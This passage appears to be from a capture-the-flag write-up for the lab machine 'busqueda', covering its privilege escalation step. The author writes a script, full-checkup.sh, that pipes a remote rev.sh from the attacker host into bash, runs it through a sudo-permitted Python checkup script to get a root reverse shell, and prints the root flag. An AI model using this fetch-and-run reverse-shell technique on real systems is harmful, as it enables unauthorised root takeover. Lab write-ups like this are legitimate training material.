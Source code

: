 
> `system-checkup.py`

![](/assets/obsidian/3516d688979410a82434f97a4b690aee.png)

Created self defined `./full-checkup.sh`

> Using **pwncat-cs**

```bash
(remote) svc@busqueda:/tmp$ cd /dev/shm/
(remote) svc@busqueda:/dev/shm$ echo -e '#!/bin/bash\ncurl 10.10.14.32/rev.sh|bash' > full-checkup.sh
(remote) svc@busqueda:/dev/shm$ chmod +x ./full-checkup.sh
(remote) svc@busqueda:/dev/shm$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
<CTRL + D>
(local) pwncat$ sessions
Active Sessions
     ╷      ╷                                  ╷          ╷        ╷
  ID │ User │ Host ID                          │ Platform │ Type   │ Address
 ════╪══════╪══════════════════════════════════╪══════════╪════════╪════════════════════
  4  │ svc  │ a8a362aa57c442276b52b86ca596b34f │ linux    │ Socket │ 10.10.11.208:46302
  5  │ svc  │ a8a362aa57c442276b52b86ca596b34f │ linux    │ Socket │ 10.10.11.208:46816
  6  │ root │ a8a362aa57c442276b52b86ca596b34f │ linux    │ Socket │ 10.10.11.208:35534
     ╵      ╵                                  ╵          ╵        ╵
(local) pwncat$ sessions 6
[11:32:59] targeting session-6 (10.10.11.208:35534)                                                                                                                                                sessions.py:88
(local) pwncat$ id
[11:33:01] error: id: unknown command                                                                                                                                                              manager.py:957
(local) pwncat$                                                                                                                                                                             
(remote) root@busqueda:/dev/shm# cd ~
(remote) root@busqueda:/root# cat root.txt
f1ae5c8e47b49b5172f6c04b71f6612c
(remote) root@busqueda:/root#
```
